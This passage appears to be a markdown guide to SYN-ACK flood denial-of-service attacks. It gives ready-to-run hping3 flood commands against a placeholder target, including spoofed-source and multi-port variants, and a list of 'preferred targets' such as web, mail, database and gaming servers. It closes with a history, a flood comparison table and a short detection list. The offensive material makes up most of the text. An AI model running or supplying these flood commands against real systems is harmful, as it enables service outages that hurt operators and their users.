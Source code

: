 ### Manual Testing:
```bash
# Basic SYN-ACK flood
hping3 -SA -p 80 --flood -V target_ip

# Randomized SYN-ACK flood
hping3 -SA -p 80 --rand-source --flood target_ip

# Multiple port SYN-ACK flood
for port in {80,443,22,25}; do
  hping3 -SA -p $port --flood target_ip &
done

# Custom sequence numbers
hping3 -SA -p 80 -s 1000000000 --flood target_ip
```

## 💡 Historical Context
- **Mid-1990s**: TCP state machine exploitation discovered
- **Early DDoS Era**: Used in multi-vector attacks
- **Modern Networks**: Still effective against unprotected systems
- **IoT Botnets**: Common in modern botnet arsenals

## 📊 TCP Flood Comparison
| Attack Type | Flags | Resource Impact | Detection Difficulty |
|-------------|-------|-----------------|---------------------|
| SYN Flood | SYN | High | Easy |
| SYN-ACK Flood | SYN+ACK | Medium-High | Moderate |
| ACK Flood | ACK | Medium | Moderate |
| FIN Flood | FIN | Low-Medium | Easy |

## 🎯 Target Selection
Preferred targets:
- **Web servers** with TCP services
- **Mail servers** (SMTP, POP3, IMAP)
- **Database servers** with network interfaces
- **Gaming servers** with TCP connections
- **VPN endpoints** processing TCP traffic

## ⚠️ Vulnerable Configurations
- **No connection validation**: Accept all SYN-ACKs
- **Weak rate limiting**: Unlimited packet processing
- **Poor logging**: Cannot detect unusual patterns
- **Default TCP settings**: No hardening applied

## 🔍 Detection Indicators
- **High SYN-ACK packet rates**
- **Increased RST packet generation**
- **CPU usage spikes**
- **Network bandwidth consumption**
- **Connection tracking table growth**
